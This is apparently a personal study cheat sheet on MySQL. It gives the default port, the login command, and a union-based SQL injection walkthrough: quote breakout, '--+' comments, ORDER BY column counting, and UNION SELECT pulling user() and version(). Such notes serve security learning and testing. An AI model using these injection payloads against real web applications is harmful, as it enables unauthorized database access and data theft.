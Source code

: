 ### Ports
Default ports 3306

### Access
mysql -u <username> -p 

### SQL Injection 
## Enumeration
1. Try single and double quotes; ?id=1' or ?id=1". If SQL errors are returned, you have escaped the input area of the SQL string.
2. Comment out the rest of the SQL query with '--+ ' (Note the space after the '+')

To find out how many columns in the table where '?id=' is present, use the ORDER operator by starting at 1, and increasing the value until an SQL error is returned. The column count equals the amount prior to the SQL error.

### ORDER Operator
> https://www.w3schools.com/sql/sql_orderby.asp
> Example below
> SELECT column1, column2, ...
> 
> FROM table_name
> 
> ORDER BY column1, column2, ... ASC|DESC;

Example of ORDER used in an injection:
> "?id=1' ORDER by 1--+ "
> 
> "?id=1' ORDER by 2--+ "
> 
> "?id=1' ORDER by 3--+ "
> 
> "?id=1' ORDER by n--+ "

An SQL error "Unknown column '4' in 'order clause'" may be returned when the column integer in the ORDER operator doesn't exist, so now we know there are 3 columns in this table, which means we can start playing with the values within these columns and see what we can find.

### UNION operator
> https://www.w3schools.com/sql/sql_union.asp
> 
> ?id=1' UNION select 1,2,3 --+ 
This returns '2' and '3'. 

Changing the query to the following:

> ?id=1' union select 1,5,6 --+

Returns '5' and '6'. 

We can now see these two fields can be used to return information from the SQL database, for exaple lets get the SQL user used for this lookup by using the 'user()' function.
> ?id=1' union select 1,5,6 --+
> ?id=1' union select 1,user(),6 --+

This returns '*root@localhost*', so we can establish that the SQL database is local to the web server, and the username is '*root*'.

**A list of functions for SQL can be found here: https://www.w3schools.com/sql/sql_ref_mysql.asp**

Some interesting functions:

1. version()
2. system_user()
3. database()

### TODO
1. How to retrieve information from the database once you know the database name 
information_schema.tables?
2. How to retrieve information about what the tables are named
3. How to retrieve information from the entries in the tables





